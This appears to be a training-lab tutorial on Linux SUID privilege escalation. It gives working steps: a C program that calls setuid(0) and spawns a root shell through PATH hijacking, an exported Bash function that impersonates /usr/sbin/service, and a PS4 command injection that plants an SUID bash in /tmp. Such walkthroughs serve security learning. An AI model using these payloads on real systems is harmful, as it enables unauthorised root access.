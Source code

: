 Suppose we have a `/usr/local/bin/suid-env` SUID executable is vulnerable due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

**One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.**

Compile this code into an executable called `service`. This code simply spawns a Bash shell.

Here is the code:

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

Compile it:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Now we have to add the path of the `service` file to the `PATH` variable, for example if the file is at `/home/user` we run the following command:

```bash
PATH=/home/user:$PATH
```

Finally, we run the `suid-env` command:

```bash
/usr/local/bin/suid-env
```
### Abusing Shell Features: Method 1

What if the file uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Suppose the `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env`.

Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }   export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

The behavior is documented in [bash documentation command search and execution](https://www.gnu.org/software/bash/manual/bash.html#Command-Search-and-Execution). The behavior is standardized in [POSIX Shell command language, section Command search and execution](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_09_01_01).

### Abusing Shell Features: Method 2

**Note:** This method will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Now run it:

```bash
/tmp/rootbash -p
```